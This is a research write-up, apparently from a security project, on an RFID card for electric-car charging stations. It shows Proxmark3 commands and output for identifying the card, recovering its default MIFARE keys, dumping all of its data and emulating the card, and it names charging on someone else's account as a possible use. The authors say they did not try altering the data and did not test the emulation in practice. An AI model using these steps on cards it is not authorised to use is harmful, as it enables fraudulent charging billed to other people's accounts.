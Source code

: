 ```yaml
---
description: This post is about a specific charging card to unlock car charging stations.
---
```


# RFID Charging card electric car

{% hint style="warning" %}
This page is still under contruction and could use more information regarding the cloning and use of charging cards.
{% endhint %}

{% hint style="info" %}
[More information about RFID on the dedicated "Technology" page.](../technology-1/researched-technologies/untitled.md)
{% endhint %}

## Research: RFID Charging Card

#### What type of card are we facing?

To start off we will be checking the type of card. This will be done using the Proxmark 3 running on the Iceman repository. The following command will pull some basic information from the card. From there we will be able to evaluate the options.

```text
[usb] pm3 --> hf search
[=] Checking for known tags...
[|] Searching for ISO14443-A tag...
[+]  UID : XX XX XX XX XX XX XX
[+] ATQA : 00 44
[+]  SAK : 08 [2]
[+] TYPE : NXP MIFARE CLASSIC 1k | Plus 2k SL1 | 1k Ev1
[+] MANUFACTURER : NXP Semiconductors Germany
[=] proprietary non iso14443-4 card found, RATS not supported
[+] Prng detection: HARD

[+] Valid ISO14443-A tag found
```

As you can see we've got a NXP MIFARE CLASSIC 1K card. Yet there's no card known to have the same ATQ and SAK values and we're pretty sure it's not a MIFARE CLASSIC 1k. The UID also suggests this isn't a card with 4 bytes. The information shown below is publicly available from nfc-tools.org.

![http://nfc-tools.org/index.php/ISO14443A](../.gitbook/assets/image.png)

While it's unclear what specific kind of card we've got on our hands it might still be possible to retrieve some data from it. Let's assume it's a Classic 1k card. 

#### Retrieving data

The data on the card is behind some sort of encryption. Most of the time these cards have default keys which uncovers the data. The following command will try default keys and dump the found keys to a binary file to use later on.

```text
[usb] pm3 --> hf mf fchk 1 d
[+] No key specified, trying default keys
[ 0] xxxxxxxxxxxx (Data has been hidden)
[ 1] xxxxxxxxxxxx
[ 2] xxxxxxxxxxxx
[ 3] xxxxxxxxxxxx
[ 4] xxxxxxxxxxxx
[ 5] xxxxxxxxxxxx
[ 6] xxxxxxxxxxxx
[ 7] xxxxxxxxxxxx
[ 8] xxxxxxxxxxxx
[ 9] xxxxxxxxxxxx
[10] xxxxxxxxxxxx
[11] xxxxxxxxxxxx
[12] xxxxxxxxxxxx
[13] xxxxxxxxxxxx
[14] xxxxxxxxxxxx
[15] xxxxxxxxxxxx
[16] xxxxxxxxxxxx
[17] xxxxxxxxxxxx
[18] xxxxxxxxxxxx
[19] xxxxxxxxxxxx
[20] xxxxxxxxxxxx
[21] xxxxxxxxxxxx
[22] xxxxxxxxxxxx
[+] Running strategy 1

[+] Chunk: 0.4s | found 32/32 keys (23)

[+] Time in checkkeys (fast):  0.4s


[=] found keys:
|---|----------------|---|----------------|---|
|sec| key A          |res| key B          |res|
|---|----------------|---|----------------|---|
|000|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|000|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|000|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|000|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|000|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|000|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|000|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|000|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|000|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|000|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|000|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|000|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|000|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|000|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|000|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|000|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|---|----------------|---|----------------|---|
[=] ( 0 :Failed / 1 :Success)
[+] Generating binary key file
[+] Found keys have been dumped to hf-mf-XXXXXXXXXXXXXX-key-10.bin --> 0xffffffffffff has been inserted for unknown keys.
```

Succes! This means we're able to succesfully access the data on the card. To dump the actual data \(not just the keys\) into a file we should use the previously retrieved keys to access the data and write the data onto a .eml file.

```text
[usb] pm3 --> hf mf dump
[=] Reading sector access bits...
................
[+] Finished reading sector access bits
[=] Dumping all blocks from card...
[+] successfully read block  0 of sector  0.
[+] successfully read block  1 of sector  0.
[+] successfully read block  2 of sector  0.
[+] successfully read block  3 of sector  0.
[+] successfully read block  0 of sector  1.
...

...
[+] successfully read block  3 of sector 15.
[+] time: 17 seconds


[+] Succeeded in dumping all blocks

[+] saved 1024 bytes to binary file hf-mf-XXXXXXXXXXXXXX-data-4.bin
[+] saved 64 blocks to text file hf-mf-XXXXXXXXXXXXXX-data-4.eml
[+] saved to json file hf-mf-XXXXXXXXXXXXXX-data-4.json
```

### Exploiting the data

There's serveral ways to use the data retrieved above. Possible scenario's could be:

* Altering data to charge on someone else's account
* Cloning the exact card from the data onto a blank pass
* Simulating the card using the proxmark3

#### Altering data

Altering data without the consent of the service provider would be unethical thus we've not tested or looked into any of the possible attack scenario's using altered data.

#### Cloning

We've tried to clone the card onto a blank pass. Unfortunately we overlooked the part where this is a card with 7 bytes of data, this killed our blank pass and left us without resources to further look into cloning. It could be very well be possible if the right blank card is used.

#### Simulating using Proxmark3

The Proxmark3 has an option to simulate the earlier retrieved data. The proxmark could function as the charging pass. To accomplish this follow my steps below.

First we will be loading the data from the eml file into memory.

```text
[usb] pm3 --> hf mf eload hf-mf-XXXXXXXXXXXXXX-data-4.eml
[+] loaded 1024 bytes from text file hf-mf-XXXXXXXXXXXXXX-data-4.eml
[=] Copying to emulator memory
................................................................

[+] Loaded 64 blocks from file: hf-mf-XXXXXXXXXXXXXX-data-4.eml
```

After which we just call the following command and we're good to go.

```text
[usb] pm3 --> hf mf sim
[=] Mifare   |  UID  N/A
[=] Options [ numreads: 0, flags: 16 (0x10) ]
#db# 7B UID: XX XX XX XX XX XX XX
#db# ATQA  : 00 44
#db# SAK   : 88
```

{% hint style="danger" %}
We have not tested the simulated card in a real environment.
{% endhint %}



